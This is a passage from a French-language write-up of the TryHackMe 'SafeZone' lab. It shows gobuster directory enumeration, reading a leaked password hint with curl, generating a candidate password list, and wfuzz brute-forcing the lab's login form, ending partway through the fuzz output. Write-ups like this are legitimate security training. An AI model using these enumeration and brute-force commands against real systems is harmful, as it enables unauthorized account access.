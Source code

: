 Dans detail.php dans le code source on trouve un commentaire qui nous dit d'utiliser le paramètre page.   
Je n'arrive à rien faire avec page.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://safezone.thm/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -t 100 -q
/server-status        (Status: 403) [Size: 277]
/~files               (Status: 301) [Size: 313] [--> http://safezone.thm/~files/]
```

Avec gobuster on découvre un autre paramètre.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://safezone.thm/~files/pass.txt
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "
```

On arrive à lire le fichier pass.txt, dedans on a : 
Le nom qui est Admin.   
Le mot de passe qui admin__admin avec __ qui est un nombre à 2 chiffres.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ for i in `seq -w 00 99`; do echo "admin"$i"admin";done >> pass
```

On génère tous les mots de passes.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wfuzz -c -z file,pass -t1 -s 20 -d "username=Admin&password=FUZZ&submit=Submit" "http://safezone.thm/index.php"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
 /usr/lib/python3/dist-packages/wfuzz/ui/console/clparser.py:348: UserWarning:When using delayed requests concurrent requests are limited to 1, therefore the -s switch will be ignored.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://safezone.thm/index.php
Total requests: 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                      
=====================================================================

000000001:   200        46 L     132 W      2430 Ch     "admin00admin"                                                                                                                                                               
000000002:   200        46 L     132 W      2430 Ch     "admin01admin"                                                                                                                                                               
000000003:   200        46 L     135 W      2428 Ch     "admin02admin"                                                                                                                                                               
000000004:   200        46 L     135 W      2428 Ch     "admin03admin"    
...
000000042:   200        46 L     135 W      2428 Ch     "admin41admin"                                                                                                                                                               
```